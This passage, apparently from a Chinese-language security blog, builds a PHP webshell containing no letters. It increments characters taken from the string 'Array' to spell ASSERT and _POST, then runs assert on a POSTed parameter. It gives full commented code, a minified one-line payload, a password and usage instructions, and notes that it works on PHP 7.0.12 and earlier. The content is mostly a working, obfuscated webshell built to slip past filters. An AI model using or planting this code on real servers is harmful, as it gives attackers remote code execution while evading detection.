 
> 
再取这个字符串的第一个字母，就可以获得`A`了<br/> 利用这个技巧，编写了如下webshell（因为PHP函数是大小写不敏感的，所以我们最终执行的是ASSERT($POST[ _ ])，无需获取小写a）


```
&lt;?php
$_=[]; 
$_=@"$_"; // $_='Array'; 
$_=$_['!'=='@']; // $_=$_[0]; 
$___=$_; // A 
$__=$_; $__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; 
$___.=$__; // S 
$___.=$__; // S 
$__=$_; 
$__++;$__++;$__++;$__++; // E 
$___.=$__; 
$__=$_; $__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // R 
$___.=$__; 
$__=$_; $__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$___.=$__; 
$____='_'; 
$__=$_; $__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // P 
$____.=$__; 
$__=$_; $__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // O 
$____.=$__; 
$__=$_; $__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // S
$____.=$__; 
$__=$_; $__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$____.=$__; 
$_=$$____; 
$___($_[_]); // ASSERT($_POST[_]);

```

> 
Payload<br/> 注意最后传入的时候记得URL编码一次，密码是_，POST传入 _=phpinfo();<br/> 这里利用版本是PHP 7.0.12及以下版本


```
$_=[];$_=@"$_";$_=$_['!'=='@'];$___=$_;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$____='_';$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$_=$$____;$___($_[_]);

```
